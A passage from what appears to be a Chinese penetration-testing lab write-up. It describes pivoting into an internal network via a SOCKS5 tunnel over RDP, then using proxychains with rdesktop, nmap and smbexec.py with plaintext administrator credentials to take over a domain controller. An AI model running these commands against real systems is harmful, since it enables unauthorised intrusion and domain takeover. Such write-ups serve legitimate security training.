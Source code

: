 此时便成功搭建了一个 SOCKS5 代理隧道，查看攻击机 Windows 10 的端口连接状态发现已经建立连接：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826091348.png)image-20210805173743464

然后在攻击机 Kali 上配置好 proxychains：

![]()image-20210805184447817

此时便可以通过代理访问到内网的主机 DC 了。如下所示，成功打开了 DC 的远程桌面：

    
    
    proxychains4 rdesktop 192.168.93.30

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826091350.png)image-20210805184342519

探测内网主机 DC 的端口开放情况：

    
    
    proxychains4 nmap -sT -Pn 192.168.93.30 -p 445

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826091352.png)image-20210805185347989

先该主机开启了 445 端口，我们可以直接用 smbexec.py 连接：

    
    
    proxychains4 python3 smbexec.py whoamianony/administrator:Whoami2021@192.168.93.30

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826091353.png)image-20210805190126459

如上图所示，成功拿下内网主机 DC。

  

文中若有不当之处，还请各位大佬师傅们多多点评。

> 参考：
>
> https://github.com/nccgroup/SocksOverRDP

  

**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826091354.png)**

  

 **推荐阅读：**

  

[
**内网渗透｜获取远程桌面连接记录与RDP凭据**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498865&idx=1&sn=ffbc46a21eeefa69862acc3d0d36afe7&chksm=ec1ca94edb6b20583bf5df5c5d62e43dc2a86e924c1aae58f434e49f677b310c58a0843af370&scene=21#wechat_redirect)  

  

[ **内网渗透｜基于文件传输的 RDP
反向攻击**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498826&idx=1&sn=0ea380bf43e25f5a4e8ad4c20451226a&chksm=ec1ca975db6b2063cc5b9191f3841cdc1f7e57088169932ee4e61e55f046737cee76a648da76&scene=21#wechat_redirect)  
